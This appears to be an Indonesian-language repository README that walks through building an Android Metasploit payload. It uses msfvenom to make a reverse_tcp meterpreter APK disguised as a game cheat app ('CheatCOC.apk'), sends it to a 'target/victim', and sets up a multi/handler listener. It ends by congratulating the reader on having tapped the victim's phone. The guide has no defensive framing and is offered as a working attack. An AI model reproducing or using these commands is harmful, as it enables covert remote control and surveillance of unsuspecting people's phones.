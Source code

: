 # Metasploit

# Android Attack 

 
> $sudo apt update

> $sudo apt upgrade

> $ifconfig (untuk mengetahui ip)

> $sudo su (masuk ke menu root)

Membuat payload dengan perintah

> #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

> #etc/init.d/postgresql start

> #msfconsole

> #use multi/handler

> #set payload android/meterpreter/reverse_tcp

> #set LHOST 192.168.111.61

> #set LPORT 4321

> #exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi

> >? (untuk melihat apa saja perintah yang dapat dilakukan)

selamat kamu telah menyadap hp target/korban mu :)
